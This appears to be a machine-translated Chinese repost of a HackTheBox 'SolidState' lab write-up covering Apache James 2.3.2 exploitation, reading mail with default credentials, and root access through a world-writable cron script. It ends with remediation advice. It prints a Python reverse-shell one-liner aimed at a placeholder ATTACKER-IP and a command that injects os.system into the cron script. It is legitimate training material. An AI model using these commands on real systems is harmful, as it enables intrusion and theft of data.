# HackTheBox — SolidState(中型)报告

> 原文：<https://infosecwriteups.com/hackthebox-solidstate-medium-writeup-2d655949ac86?source=collection_archive---------1----------------------->

声明:我通过博客搬到了 Medium.com 以外的地方。在网上查看我的新家:[https://www . PID null . io/2021/09/04/HackTheBox _ SolidState(Medium)。html](https://www.pidnull.io/2021/09/04/HackTheBox_SolidState(Medium).html)


欢迎来到我的第一篇 HackTheBox 文章！

这是我第一次尝试写我在 HackTheBox 和 TryHackMe 上完成的机器和挑战。

快速声明:这些并不是作为指南，相反，它们更多的是展示我的思维过程和一些用于执行 box pwnage 的漏洞分析。我会根据我在笔记上写的，来写这些，当我实际解决这些机器的时候。

# 侦察

我通常做的第一件事是为我正在工作的当前机器创建一个新的目录树。

```
cd /opt/hackthebox
mkdir -p SolidState/{nmap,exploits,downloads} && cd SolidState
```

现在，对于初始 Nmap 扫描，我喜欢扫描常见端口，以便对正在发生的事情有一个基本的了解，然后根据需要扫描更多端口。

*   **-sC** :运行基本的 nmap 脚本
*   **-sV** :检测版本
*   **-oA** :生成输出文件。这对于以后检查输出非常有用。



太好了，我可以看到 22/ssh、25/smtp、80/http、110/pop3 和 119/nntp 打开，以及运行在端口 80 上的服务的一些基本信息。

# 列举

首先，我列举了监听端口 80 的网站。


进一步点击，我找到了联系页面:


我对这个电子邮件地址很感兴趣:

```
webadmin@solid-state-security.com
```

我记下了这段信息，并将域添加到我的/etc/hosts 中。

```
echo "10.129.29.189 solid-state-security.com" | sudo tee -a /etc/hosts
```

在一次正常的 pentest 中(在撰写本文时，我还没有实际的 pentest 经验)，我知道地址和电话号码可能很有趣，查看页面代码(甚至通过 Burp 代理流量)也可能很有用。现在，我继续前进，使用域名再次检查了网站，但它看起来像是同一个网站。

此时，我想知道是什么在运行 SMTP 服务监听端口 25，并查看它必须提供什么功能。



这里我能做的不多，但有一条重要的信息出现了，那就是 SMTP 服务器软件及其版本:

```
James SMTP Server 2.3.2
```

起初我不知道詹姆斯 SMTP 是什么，但是通过快速的 ddg 我发现它是一个 [Apache](https://james.apache.org/documentation.html) 产品。

快速搜索显示，Apache James 的[公开漏洞](https://www.exploit-db.com/exploits/35513)也与该版本匹配:



# 弱点分析

太好了！当然，在运行任何东西之前，我研究了这个漏洞做了什么。通读剧本并搜索相关关键词，我得出了以下结论:

*   使用默认用户名和密码:root/root
*   由于添加新邮件用户时缺乏(或不充分)输入验证，此版本的 Apache James 易受任意文件写入攻击，从而导致远程代码执行。
*   Apache James 监听端口 4555，这当然没有出现在我最初的 NMAP 扫描中，因为我只扫描了顶部的端口。
*   该漏洞将连接到此端口，并使用默认凭据登录，创建一个用户名为../../../../../../../../etc/bash_completion.d。
*   然后，该漏洞将连接到 25/smtp，向该用户发送一封包含有效负载的电子邮件，包含有效负载的电子邮件将被放入 bash_completion.d/。
*   当用户登录时，有效负载通过 bash 完成来执行。



更详细的漏洞解释和重现步骤可以在[这里](https://crimsonglow.ca/~kjiwa/2016/06/exploiting-apache-james-2.3.2.html)找到。

> …
> 用户名，如“../../../../../../../../etc/bash_completion.d "会导致文件被放在“/etc/bash_completion.d”中，该目录包含用户登录到机器时执行的命令。通过向该用户发送消息，攻击者可以执行探测邮件服务器并从中检索数据的命令。
> …

验证端口 4555 是否确实可以到达:



现在我准备好接受剥削了。

## 测试漏洞

首先，我通常希望验证漏洞。通常我会设置我的虚拟机(使用 VirtualBox 和 vagger)，但这一次我只是继续前进，利用我的 HTB VIP+订阅(个人实例，机器在我想要的时候重置)。所以我写了一个有效载荷，它会给我发送一个回调，然后我运行 Python 脚本:



我通过使用 tcpdump 进行监听来等待回调:



我从最初的读数中知道，要触发漏洞，我需要一个用户登录到服务器。当然，这是在 HTB，没有实际的和模拟的用户，所以我知道我需要自己触发登录。然而，此时我还没有一个有效的 SSH 用户，所以我回到了我已经有的但还没有手动探索的有用的东西:James SMTP 服务器的 admin 帐户。

我尝试使用默认凭据登录服务(root:root):


由于这项服务对我来说是新的，我不得不研究我可以运行什么命令。对于这一点，帮助就足够了，但也有一个可用的在线[文档](https://james.apache.org/server/manage-cli.html)。

运行 listusers，我看到一些用户:

*   詹姆斯
*   托马斯
*   约翰
*   明迪
*   邮件管理员

我想然后阅读每个用户的电子邮件。为此，我知道最简单的方法是更改用户密码。然而，在真正的 pentest 中，我知道对最终用户造成干扰可能会被添加到范围之外，或者可能会引发调查，从而导致被发现并危及 pentest 项目。对于这个盒子，我只是继续下去，改变每个用户的密码，手动阅读他们的电子邮件一个接一个。

我(根据我的笔记)检查的第一个用户是托马斯，但他们没有电子邮件。



我在约翰的邮箱里看到了下面的邮件，这是詹姆斯发来的邮件，指示约翰给新员工明迪发一个受限账户的临时密码。



在检查明迪的账户时，我发现了詹姆斯发来的电子邮件，其中包含临时凭证:



我想，如果我幸运的话，Mindy 还没有完全加入进来，而临时证书仍然有效。只有一种方法可以找到答案，所以我用邮件中的密码登录了 mindy 的账户:


完美！当然还有用户标志，我还注意到我处于一个受限的 shell 环境中。我没有费心探索如何摆脱这种受限的环境，因为我仍然有有效载荷来帮助我生成一个反向 shell。后来我发现这是 bash 的受限版本。

检查正在运行的 tcpdump，我得到了回调:



在这一点上，我能够验证利用工作，我可以得到一个回调。我知道我已经准备好发送我的反向 shell 有效负载了。

# 最初的立足点

我使用的反向 TCP 负载如下:



现在运行 python 脚本:



收到的反向外壳:


(走出哑壳:)



# 权限提升

我的 Linux PE 的 goto-tool 是 [linPeas](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS) 。然而，当我在等待 linPeas 完成时，手动查看/opt/tmp.py 时，PE 运行得相当容易。



关于脚本的重要说明:

*   该文件是 root 所有的，但它是全局可写的。
*   它看起来像一个“清理”脚本，删除/tmp 中的所有内容。
*   SUID 比特没有设置，所以必须有另一种方式运行它。
*   根据多年的系统管理员经验，我知道像这样的清理脚本通常由 cron 之类的东西来调度。
*   我认为对于 CTF 风格的盒子来说，计划持续时间足够短。

为了证明我的理论，我在/tmp 中创建了一个文件，然后等待它消失，几分钟后它消失了(我无法记下有多长时间)。

最后，为了实现获取根标志的目标，我添加了一个简单的命令调用来获取标志并将其写入可读文件:

```
echo "os.system('cp -p /root/root.txt /opt/root.txt && chmod 777 /opt/root.txt')" >> tmp.py
```

# 推荐

最后，这是我第一次尝试为 pentest 的发现写一个推荐:

## 更改默认凭据

Apache James SMTP 服务器使用默认凭据 root:root。在使应用程序可供远程访问或部署用于生产之前，请始终更改默认密码。

## 禁用横幅

让这台机器对我来说相对容易的是 SMTP 端口上的欢迎横幅，其中包括 Apache James 的易受攻击版本。当然，禁用欢迎横幅不会阻止任何人进一步挖掘，但它肯定会减缓攻击。

## 应用安全更新

补丁管理过程对于处理软件漏洞是无价的。我提到“流程”是因为电子邮件是一项关键服务，应用补丁很容易意味着停机，因此一个正确建立和测试的流程有助于平衡用户的停机成本，同时有助于确保应用程序拥有最新的安全补丁。

## 防止未经验证的电子邮件中继

我使用的来自 exploitdb 的特定 POC 不需要登录 SMTP 服务来发送电子邮件。Apache James 可以通过要求用户首先登录来防止这种情况，并且如果默认凭证也被更改，也不能轻易绕过这种情况。

# 最后的想法

在写这篇文章的时候，有些事情我本可以做得更好:

*   使用诸如 [pspy](https://github.com/DominicBreuker/pspy) 之类的工具，这将有助于监控 cron 作业何时被执行。当您看不到 root 等其他特权用户的 cron 作业时，以及 cron 作业的时间不容易辨别时，这很有用。
*   生成一个根 shell 作为 POC，用于完整的系统访问。一个示例 Python 脚本，当从 root 执行时，它将产生一个[反向外壳](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#python):

```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("ATTACKER-IP",4554));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

感谢您阅读我的帖子！我很乐意听到你的反馈或回答你的问题:【https://twitter.com/pidnull 